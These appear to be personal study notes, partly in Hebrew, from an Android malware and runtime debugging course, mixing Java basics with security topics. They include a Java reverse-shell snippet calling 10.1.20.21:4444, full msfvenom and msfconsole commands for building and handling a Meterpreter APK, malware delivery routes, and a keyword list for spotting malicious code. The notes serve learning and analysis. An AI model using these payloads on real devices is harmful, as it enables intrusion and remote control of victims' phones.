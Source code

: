Android malware & Runtime Debugging.
-------------------------------------
איך מנתחים אפליקציה לחיפוש vulnerability
java--> High level language
switch case --> 
int day = 4;
switch(day) {
    case1: (--> if day = 1) ...
    case2: (--> elif day= 2)
}
switch case --> another way for "if" "else" statement.
--------------------------------------
print to screen -->
System.out.printIn("hello world")
-------------------
סוגי משתנים
public class Main {
    public static void main(String[] args) {
        int num = 1;
        String str = "Something";
        float flo = 1.1;
        boolean bool = true;
        char ch = 'd';
    }
}
-------------------------------------------also has if else and elif
-------------------------------------
default --> else
----------------------------------------
for loop:
public class Main {
    public static void main(String[] args) {
        for (int i = 0; i < 10; i++) {
            System.out.println(i);
        }
    }
}

will print 0 to 9
stracture -- start, end and step
----------------------------------------
x = "haker"
y = "hacker"

if(x.equals(y)) 
{
    System.out.print("THe strings are equals");
}
-----------------------------
ReverseShell:

@Override
public void onClick(View v) {
String command = "sh -c /bin/bash -i >& /dev/tcp/10.1.20.21/4444 0>&1";
try {
Process process = Runtime.getRuntime().exec(command);}
catch (IOException e) {
e.printStackTrace();}}}
----------------------------------
while we investigate code need do be aware for :

import (library)
permissions
sockets, inputs...
----------------------------------------
Java runtime:
like the system command in Python, just in Java.

Example: settin a process

Process process = Runtime.getRuntime().exec(command);
------------------------------------------
Suspicious Activity :

* Unofficial --> Apk that are not available in store

* Background --> Application run in backup while the Application is not active

* Permissions ---> asking permissions for critic things.
-------------------------------------------
# Gathering information : KeyWords to search for in the code :

* "/bin/sh"; --> Used to enable a command-line interface (CLI) on the victim's machine. This is often used to execute commands remotely.

* InputStream --> Used to send data to a client. This could be used to transmit information from a server to a client.

* Socket --> Used to open the first connection with a client. A socket is a communication endpoint that allows data to be sent and received.

* host --> A string that will often be followed by an IP. This typically refers to a computer or device on a network.

* import java.net.Socket; --> A library used to open connections (sockets) in the network. This Java library provides classes and methods for creating and managing network connections.

 * import java.io.InputStream; --> A library used to send data via the network. This Java library provides classes and methods for reading data from an input stream, such as a network socket.
 -----------------------------------------
Log sending in JAVA:

 Log.i (Information)
 Log.d (Debugging)
 Log.e (Errors)
 ------------------------------------------
Android Shell types:
-------------------------------------------
* ADB

* PushpenderIndia

* Evildroid

All of this are shells whiich based on Meterpreter.
-------------------------------------------
Malware Delivery // ways to cracked file :

* website --> לינק לאתר

* SMS --> לינק ב ס.מ.ס

* Bluetooth --> לינק בבלטוס
-------------------------------------------
MsfVenom & Meterpreter :
create payload that I put in it the Lhsot(ip host), Lport(port) and I can gain a reverese shell.

The command for it is :

msfvenom -p android/meterpreter/reverse_tcp lhost = IPkali lport=54321 -f raw -o Name.apk

* -p --> payload 
* -f --> format
* -o --> output

Full process :

1.
msfvenom -p android/meterpreter/reverse_tcp lhost=[KALI IP] lport=[KALI PORT] -f raw -o file.apk

2. run msfconsole:

use exploit/multi/handler 
set payload android/meterpreter/reverse_tcp
set lhost [KALI IP]
set lport [KALI PORT]
run

On Emuator --> Just drag the Application to the Phone.

While on meterpreter :
applist --> shows all the application
-? --> show all the abilities for the meterpreter.  

#   THIS WAS DYNAMIC INVESTIGATION. 
-------------------------------------------
# move file from kali to host :
On kali --> python3 -m http.server 80
On Host --> Chrome --> Ipkali:80
-------------------------------------------
Analasys Methodes :

* Static --> investigate the apk file without starting the application (just from the source code)

* Dynamic --> when I have tools that can check the behavior of the Application and investigate it. Analise the Application *WITH* start it.
 ------------------------------------------
 MobSF --> Tool that helps Analise The App based on the Static Analise methode.
 